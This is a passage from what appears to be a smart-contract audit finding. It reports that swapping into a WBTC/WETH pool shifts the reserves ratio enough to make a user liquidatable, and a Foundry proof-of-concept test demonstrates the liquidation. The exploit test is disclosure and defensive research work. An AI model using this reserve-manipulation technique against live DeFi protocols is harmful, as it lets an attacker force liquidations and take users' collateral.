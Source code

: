 ```solidity
235: 		return underlyingTokenValueInUSD( userWBTC, userWETH );
236: 		}
```

## Impact
A malicious user can manipulate the WBTC/WETH reserves ratio by swapping and use this to liquidate users.

## Proof of Concept

```solidity
	function test_auditMakeUserLiquidatable() public { //@audit H03: POC 
		
		// Bob deposits collateral so alice can be liquidated
        vm.startPrank(bob);
		collateralAndLiquidity.depositCollateralAndIncreaseShare(wbtc.balanceOf(bob), weth.balanceOf(bob), 0, block.timestamp, false );
		vm.stopPrank();


        // Deposit and borrow from Alice's account to create basis for liquidation
        _depositCollateralAndBorrowMax(alice);
        // Warp past the lockout period, so liquidation is now allowed
        vm.warp(block.timestamp + 1 hours); // warp to just after the lockout period

        // Cause a drastic price drop just above liquidation threshold
		vm.startPrank( DEPLOYER );
		forcedPriceFeed.setBTCPrice( forcedPriceFeed.getPriceBTC() * 55 / 100);
		forcedPriceFeed.setETHPrice( forcedPriceFeed.getPriceETH() * 55 / 100);
		vm.stopPrank();

		//Alice is not liquidable
		assertEq(collateralAndLiquidity.canUserBeLiquidated(alice), false);
        vm.expectRevert("User cannot be liquidated");
        collateralAndLiquidity.liquidateUser(alice);

		//liquidator swap WBTC in the pool to change the reserves ratio
		uint256 wbtcAmount = 1e8;
		deal(address(wbtc), address(this), wbtcAmount);
		wbtc.approve(address(pools), wbtcAmount);
		pools.deposit(wbtc, wbtcAmount);
		pools.swap(wbtc, weth, wbtcAmount, 0, block.timestamp);

		//after swap, Alice become liquidable
		assertEq(collateralAndLiquidity.canUserBeLiquidated(alice), true);

		//liquidator then liquidate alice
        collateralAndLiquidity.liquidateUser(alice);
    }
```
